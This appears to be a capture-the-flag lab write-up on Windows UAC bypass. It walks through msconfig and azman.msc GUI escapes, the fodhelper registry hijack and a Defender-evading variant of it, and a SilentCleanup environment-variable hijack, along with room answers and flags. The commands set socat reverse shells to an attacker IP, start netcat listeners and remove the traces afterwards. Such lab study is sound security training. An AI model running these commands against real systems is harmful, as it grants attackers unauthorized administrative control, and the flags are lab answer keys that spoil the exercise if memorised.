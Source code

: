 
# Bypassing UAC - Medium

1. [User Account Control (UAC)](#user-account-control-uac)
2. [UAC: GUI based bypasses](#uac-gui-based-bypasses)
3. [UAC: Auto-elevating processes](#uac-auto-elevating-processes)
4. [UAC: Improving the Fodholper Exploit to Bypass Windows Defender](#uac-improving-the-fodholper-exploit-to-bypass-windows-defender)
5. [UAC: Environment Variable Expansion](#uac-environment-variable-expansion)

## User Account Control (UAC)

* UAC - Windows security feature that forces any new processes to run in the security context of a non-privileged account by default; applies to processes started by any user.

* Elevation in UAC is done to confirm that the user explicitly approves running the app in an administrative security context.

* UAC is a MIC (Mandatory Integrity Control), a mechanism that allows differentiating users, processes and resources by assigning an IL (Integrity Level) to each. Possible ILs are Low, Medium, High and System.

* UAC notification level settings:

  * Always notify
  * Notify me only when programs try to make changes to my computer - Default
  * Notify me only when programs try to make changes to my computer (do not dim my desktop)
  * Never notify

* Objective is to obtain access to a High IL command prompt without passing through UAC.

```markdown
1. What is the highest integrity level (IL) available on Windows? - System

2. What is the IL associated with an administrator's elevated token? - High

3. What is the full name of the service in charge of dealing with UAC elevation requests? - Application Information Service
```

## UAC: GUI based bypasses

* msconfig - msconfig process runs as a high IL process due to auto-elevation; wew can force msconfig to spawn a shell for us so that it runs as a high IL process.

```shell
#to get flag
C:\flags\GetFlag-msconfig.exe
```

* azman.msc - this process is also high IL due to auto-elevation; to get shell, go to Help > Help Topics > Right-Click anywhere > View Source > Spawns Notepad > File > Open > cmd.exe in C:\Windows\System32

```shell
#flag
C:\flags\GetFlag-azman.exe
```

```markdown
1. What flag is returned by running the msconfig exploit? - THM{UAC_HELLO_WORLD}

2. What flag is returned by running the azman.msc exploit? - THM{GUI_UAC_BYPASSED_AGAIN}
```

## UAC: Auto-elevating processes

* There are certain apps with certain requirements for auto-elevation with high IL.

* Fodhelper:

```shell
#according to given scenario
#we need to connect to given backdoor
#in attacker machine
nc 10.10.101.230 9999

#now through the backdoor connection
whoami
#myserver\attacker

net user attacker | find "Local Group"
#our user is part of Administrators group

whoami /groups | find "Label"
#it is running with a Medium IL

#we need to set required registry key values for reverse shell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.85.177:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f

#setup listener in attacker machine
nc -lvp 4444

#on victim machine, run fodhelper
fodhelper.exe

#get flag
C:\flags\GetFlag-fodhelper.exe

#cleaning up our tracks
reg delete HKCU\Software\Classes\ms-settings\ /f
```

```markdown
1. What flag is returned by running the fodhelper exploit? - THM{AUTOELEVATE4THEWIN}
```

## UAC: Improving the Fodholper Exploit to Bypass Windows Defender

```shell
#in victim command prompt (via backdoor)
#for modified fodhelper exploit
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.85.177:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe

#now setup listener in attacker machine
nc -lvp 4445

#in victim machine
fodhelper.exe
#this gives us reverse shell

C:\flags\GetFlag-fodhelper-curver.exe
#flag

#clean up
reg delete "HKCU\Software\Classes\.thm\" /f

reg delete "HKCU\Software\Classes\ms-settings\" /f
```

```markdown
1. What flag is returned by running the fodhelper-curver exploit? - THM{AV_UAC_BYPASS_4_ALL}
```

## UAC: Environment Variable Expansion

```shell
#disk cleanup scheduled task exploit

#setup listener
nc -lvp 4446

#now through backdoor cmd prompt
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.11.85.177:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

#this gives us reverse shell
#for flag
C:\flags\GetFlag-diskcleanup.exe

#cleanup
reg delete "HKCU\Environment" /v "windir" /f
```

```markdown
1. What flag is returned by running the DiskCleanup exploit? - THM{SCHEDULED_TASKS_AND_ENVIRONMENT_VARS}
```
